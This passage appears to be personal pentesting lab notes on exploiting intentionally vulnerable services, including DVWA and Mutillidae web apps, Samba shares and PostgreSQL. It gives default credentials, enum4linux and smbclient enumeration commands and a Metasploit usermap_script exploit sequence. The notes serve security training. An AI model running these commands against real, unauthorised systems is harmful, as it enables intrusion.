 	![[Pasted image 20250426130526.png]]

3. **Exploiting DVWA (Damn Vulnerable Web App)**:
    
    - Navigate to `http://$TARGET/dvwa/`
    - Default credentials: `admin/password`
    - Explore various vulnerability categories:
        - SQL Injection
        - Command Injection
        - Cross-Site Scripting (XSS)
        - File Inclusion

	![[Pasted image 20250426130041.png]]
	
4. **Exploiting Mutillidae**:
    
    - Navigate to `http://$TARGET/mutillidae/`
    - Test various OWASP Top 10 vulnerabilities

### 4.6 Samba Exploitation (Ports 139/445) (NOT COMPLETE)

1. **Enumerate Samba Shares**:
    
    ```bash
    enum4linux -a $TARGET
    ```
    
2. **List Available Shares**:
    
    ```bash
    smbclient -L $TARGET
    ```
![[Pasted image 20250426130913.png]]

	    
3. **Access Shares without Password**:
    
    ```bash
    smbclient //$TARGET/tmp
    ```
	![[Pasted image 20250426130955.png]]
	
4. **Exploiting Samba using Metasploit**:
    
    ```bash
    msfconsole
    use exploit/multi/samba/usermap_script
    set RHOSTS $TARGET
    run
    ```
    

### 4.7 PostgreSQL Exploitation (Port 5432) (NOT COMPLETE)

1. **Test Default Credentials**:
    